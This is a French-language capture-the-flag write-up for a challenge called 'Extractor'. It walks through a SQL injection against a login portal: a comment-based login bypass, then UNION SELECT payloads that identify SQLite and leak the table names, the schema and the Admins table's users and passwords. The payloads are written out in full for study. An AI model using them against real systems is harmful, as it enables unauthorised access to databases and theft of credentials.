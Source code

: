 # Extractor

## Enoncé
We are under emergency. Enemy is ready with its nuclear weapon we need to activate our gaurds but chief who had password is dead. There is portal at URL below which holds key within super-user account, can you get the key and save us.

## Découverte
On arrive sur site bien dégueulasse avec deux fonctions principales : "register" et "login". Trois champs découlent de ces fonctions : "Username", "Password" et "Signature". On crée un utilisateur "test" avec pour password "test" et pour signature "123456". On tente alors au hasard une SQLi login bypass (`test';--`) par hasard et tient, ça fonctionne...

## Exploitation 
On est donc à peu près certain d'avoir affaire à une SQLi. Seulement, nous n'avons aucun user donné dont on doit exfiltrer le mot de passe. On tente donc une UNION BASED avec pour payload :

    test' UNION SELECT null;--

La page nous renvoie :

On tatonne donc en rajoutant des colonnes et on arrive finalement à un payload qui fonctionne, du moins qui ne retourne pas d'erreur :

    test' UNION SELECT null,null,null,null;--
    
C'est bien beau tout ça mais pour aller plus loin il va nous falloir des infos sur la version de la base de données utilisée. On s'aide donc tranquillement de PayloadAllTheThings (petite cheatsheet résumé au passage). 

Le seul payload qui fonctionne est finalement :

    test' UNION SELECT null,null,null,sqlite_version();--

Ce qui nous confirme qu'on se trouve sur une base de données SQLite. On a donc plus qu'à suivre la méthodologie pour leak ce qu'on veut.

Pour leak la table :

    test' UNION SELECT null,null,null,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
    
Ensuite pour leak les colonnes de la table :

    test' UNION SELECT null,null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='Admins';--
    
Enfin pour leak les données de la table (et flag le challenge) :

    test' UNION SELECT null,user,pass,content FROM 'Admins';--
    




*Write-up by BA-Seven (https://github.com/BA-Seven)*
